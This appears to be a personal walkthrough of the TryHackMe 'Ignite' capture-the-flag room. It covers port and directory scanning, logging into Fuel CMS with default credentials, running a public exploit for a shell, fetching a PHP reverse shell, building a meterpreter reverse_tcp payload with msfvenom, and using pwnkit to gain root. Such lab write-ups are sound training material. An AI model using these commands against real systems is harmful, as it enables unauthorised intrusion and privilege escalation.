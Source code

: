 ```yaml
---

title: Walkthrough - Ignite
published: true
---
```


A new start-up has a few issues with their web server.

[https://tryhackme.com/room/ignite](https://tryhackme.com/room/ignite)

* * *

## Root it!

- ``nmap -p- -T4 10.10.1.30 -vvv``

Few things of note. Inital nmap scan shows we have a webserver at port 80 and viewing the site, we can see a default Fuel CMS Version 1.4 page. Will run gobuster to scan while nmap runs. 

It doesnt look like there are any other open ports on this server. But will keep running scans while we check out the webserver.

- ``gobuster dir -u http://10.10.1.30 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -x txt,html,php,cgi -t 100 --no-error``
- we see a robots.txt with ``/fuel/`` which shows us the fuel cms login page.

##   Gobuster Results

```shell
/home                 (Status: 200) [Size: 16591]
/index                (Status: 200) [Size: 16591]
/index.php            (Status: 200) [Size: 16591]
/0                    (Status: 200) [Size: 16591]
/offline              (Status: 200) [Size: 70]   
/robots.txt           (Status: 200) [Size: 30]   
/server-status        (Status: 403) [Size: 298]  
```

Reading the fuel CMS default page gives us default credentials admin:admin. We cnan login to /fuel/ with these. lol.

- ``searchsploit fuel cms`` we have some exploits to try.
- ``python3 50477.py -u http://10.10.1.30`` will give us a shell
- wget a php reverse shell over and setup netcat listener

![](/assets/ignite01.png)

* * * 

## User.txt

- ``cat flag.txt`` in ``/home/www-data``

* * * 

## Root.txt

- upgrade shell ``python3 -c 'import pty;pty.spawn("/bin/bash")'``
- upload meterpreter shell ``msfvenom -p linux/x86/meterpreter/reverse_tcp  LHOST=10.2.127.225 LPORT=5555 -f elf > meterpreter.elf``
- setup ``msfconsole`` and run ``linux/local/cve_2021_4034_pwnkit_lpe_pkexec`` to get root.txt

* * * 